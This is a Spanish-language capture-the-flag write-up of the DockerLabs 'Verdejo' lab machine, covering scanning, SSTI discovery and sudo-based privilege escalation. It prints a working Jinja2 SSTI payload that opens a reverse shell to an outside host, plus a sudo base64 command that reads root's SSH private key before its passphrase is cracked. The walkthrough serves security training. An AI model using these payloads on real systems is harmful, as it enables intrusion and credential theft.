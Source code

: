 ```yaml
---
title: Verdejo - DockerLabs
published: 2024-10-25
description: 'Nos encontraremos con una página web vulnerable a SSTI (Server Side Template Injection) y mediante (root) NOPASSWD: /usr/bin/base64 podremos leer la clave de ssh id_rsa del usuario root. Haremos uso de ssh2john para extraer el hash y con John The Ripper podremos crackear y obtener la clave que nos permitirá acceder como root al sistema.'
image: '../../../assets/DockerLabs/Verdejo/verdejo.jpeg'
tags: [WriteUp, DockerLabs]
category: 'WriteUp'
draft: false 
---
```


## Introduction 

En este WriteUp, abordaremos la máquina Verdejo de la plataforma **[DockerLabs](https://dockerlabs.es/)**, máquina creada por **[TheHackersLabs](https://thehackerslabs.com/)**. Nos encontraremos con una página web vulnerable a SSTI (Server Side Template Injection) y mediante (root) NOPASSWD: /usr/bin/base64 podremos leer la clave de ssh id_rsa del usuario root. Haremos uso de ssh2john para extraer el hash y con John The Ripper podremos crackear y obtener la clave que nos permitirá acceder como root al sistema.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-dockerlabs.png)

```json
Platform: DockerLabs
Level: Easy
OS: Linux
```

## Reconnaissance

~~~
Target: 172.17.0.2
~~~

Inicialmente, usamos el comando **Ping**. Este utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. **Ping** envía un mensaje de “echo request” a una **dirección IP** y espera recibir un mensaje de “echo response” en respuesta. Este proceso nos permite verificar si una máquina en la red es accesible y medir la latencia. Podemos inferir que es una máquina **Linux** debido a que el **ttl = 64**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-1.png)

## Scanning 

Como vemos, el paquete fue recibido por la máquina victima. Una vez verificada la conexión, empezamos a realizar un escaneo de multiples etapas con la herramienta **Nmap**. Primero, haremos un escaneo de puertos abiertos.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-2.png)

Vemos que tenemos los puertos **22/SSH**, **80/HTTP** y **8089/unknown**. Procedemos a hacer un escaneo más detallado de los mismos con el fin de obtener más información. Esto lo haremos con la flag `-sCV`

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-3.png)

## Enumeration

**22/SSH**
El puerto 22 ejecuta el servicio SSH versión **OpenSSH 9.2p1**. De momento no tenemos ninguna vulnerabilidad que aprovechar para esta versión.

**80/HTTP**
El puerto 80 ejecuta un servidor web **Apache/2.4.59**. Por lo visto es la página default de Apache.

**8089/Unknown**
Por lo visto el puerto 8089 ejecuta lo que es la página web por lo cual podemos inferir que para acceder a ella necesitamos indicar el puerto. Vemos que útiliza **Werkzeug/2.2.2** y **Python/3.11.2** 

Al acceder al sitio efectivamente nos lleva a la página web default de Apache.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-4.png)

Al hacer **Web fuzzing** utilizando **Gobuster** en busca de archivos y directorios ocultos no encontramos nada interesante.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-5.png)

Haremos uso de **whatweb** para obtener más información acerca del sitio web está vez indicando el puerto **:8089** 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-6.png)

Como vemos nos índica que es accesible y al ingresar notamos un formulario.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-7.png)

Al enviar la palabra "Hola" notamos que la representa en el **DOM (Document Object Model)**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-8.png)

Intentamos ver si es vulnerable a **XSS (Cross-Site Scripting)** vulnerabilidad que permite a un atacante inyectar scripts maliciosos en páginas web. Ingresamos código JavaScript para ver como reacciona la página. 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-9.png)

Como vemos el servidor refleja la respuesta por lo que estamos ante **XSS Reflected (Reflejado)** 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-10.png)

Como no podemos obtener de manera directa **RCE (Remote Code Execution)** intentaremos **SSTI (Server-Side Template Injection)**, una vulnerabilidad que permite inyectar código en plantillas del lado del servidor. En primer lugar comprobaremos si es vulnerable indicando `{{7x7}}` y en caso de que responda de manera correcta el resultado de la multiplicación estariamos la vulnerabilidad **SSTI**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-11.png)

Como vemos, respondió **49** por lo efectivamente estamos ante **SSTI (Server-Side Template Injection)**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-12.png)

## Exploitation

Al leer acerca de está vunerabilidad en **[Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)** me centro más que nada en la sección de **Payloads de Python** debido a que, recordemos, el servidor web ejecutaba **Python/3.11.2**: Me encuentro está sección interesante que menciona **RCE (Remote Command Execution)**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-13.png)

Escribo el **Payload** de **Jinja2 (Un motor de plantillas con todas las funciones para Python)** en el formulario para ver si es efectivo 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-14.png)

Resulta que si, es vulnerable al payload de **Jinja2 (Python)** por lo que podemos inferir que ejecuta este motor de plantillas. 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-15.png)

Como podemos ejecutar comandos arbitrarios, podriamos hacer uso de una **reverse shell** y obtener **RCE**. El payload que usaremos es: 

~~~jinja2
{{ cycler.__init__.__globals__.os.popen("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.10/1717 0>&1'").read() }} 
~~~

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-16.png)

Luego de pondremos en escucha mediante **Netcat** en el puerto **1717** y al enviar el payload obtenemos acceso. Como vemos somos el usuario: **verde**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-17.png)

Realizamos el **tratamiento de la tty** para no tener ningún problema o inconveniente innecesario a la hora de usar la términal luego de la reverse shell.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-18.png)

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-19.png)

## Privilege Escalation

Ejecutamos el comando `sudo -l` para listar los permisos **sudo** del usuario actual y como vemos nos indica que el usuario verde puede ejecutar el siguiente comando como super usuario sin la necesidad de contraseña: **(root) NOPASSWD: /usr/bin/base64

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-20.png)

Según **[GTFObins](https://gtfobins.github.io)** el binario nos permite acceder a archivos del sistema como super usuario. 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-21.png)

- **`sudo base64 <FILE TO READ>`**: Este comando toma un archivo (reemplaza `<FILE TO READ>` con la ruta del archivo) y lo codifica en formato base64. Usar `sudo` permite ejecutar el comando con privilegios de superusuario, lo que puede ser necesario si el archivo requiere permisos especiales para ser leído.
    
- **`| base64 --decode`**: El operador `|` (pipe) toma la salida del primer comando (la representación base64 del archivo) y la pasa como entrada al segundo comando. `base64 --decode` decodifica esa representación base64 de vuelta a su forma original.

Intentaremos acceder a la **id_rsa** de **root** aprovechando el comando:

~~~
sudo /usr/bin/base64 /root/.ssh/id_rsa | base64 --decode
~~~

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-22.png)

Como vemos tenemos la **clave privada** con lo cual podriamos acceder. Crearemos un archivo llamado **id_rsa** con el contenido de la **clave privada** en nuestra máquina local y le daremos permisos con `chmod 600 id_rsa` 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-23.png)

Al intentar ingresar al **SSH** del usuario **root** nos pide la key de la **id_rsa** por lo que necesitamos extraer el **hash** de la misma.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-24.png)

Extraemos el **hash** de la **id_rsa** con la herramienta **ssh2john**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-25.png)

Con **JohnTheRipper** crackeamos el hash para obtener la key de la **id_rsa** y vemos que es: **honda1**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-26.png)

Ahora al intentarlo nuevamente y escribir la **key** de la **id_rsa** vemos que ingresamos correctamente. 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-27.png)

Con **whoami && id** vemos que somos **root** por lo que tenemos control total del sitema y por lo tanto hemos finalizado la máquina.

<br>